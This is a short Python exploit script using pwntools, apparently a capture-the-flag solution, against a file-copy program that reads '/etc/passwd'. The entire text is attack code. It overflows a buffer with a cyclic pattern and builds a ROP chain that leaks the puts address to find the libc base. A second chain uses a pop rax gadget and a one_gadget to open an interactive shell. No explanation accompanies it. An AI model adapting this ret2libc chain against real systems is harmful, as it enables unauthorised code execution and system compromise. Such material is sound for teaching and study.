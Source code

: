 ```python  

rc = ROP(exe)  
rc.puts(exe.sym.got["puts"])  
rc.raw(p64(exe.sym["main"]))

cut = cyclic_find(0x6161616c)  
io.sendlineafter("file to copy", b"/etc/passwd\x00" + cyclic(cut) +
rc.chain())  
io.sendlineafter("target file", b"/tmp/abcd")

resp = io.recvuntil("file to copy")  
puts_leak = u64(resp.split(b"\n")[2].ljust(8, b"\x00"))  
log.success("puts @ {}".format(hex(puts_leak)))  
libc.address = puts_leak - 0x071910  
log.success("libc base @ {}".format(hex(libc.address)))

pop_rax = libc.address + 0x000000000003a638  
one_gadget = libc.address + 0x4484f

rc = ROP(exe)  
rc.raw(p64(pop_rax))  
rc.raw(p64(0x0))  
rc.raw(p64(one_gadget))

io.sendline(b"/etc/passwd\x00" + cyclic(cut) + rc.chain())  
io.sendline(b"/tmp/ABCD")

io.interactive()  
```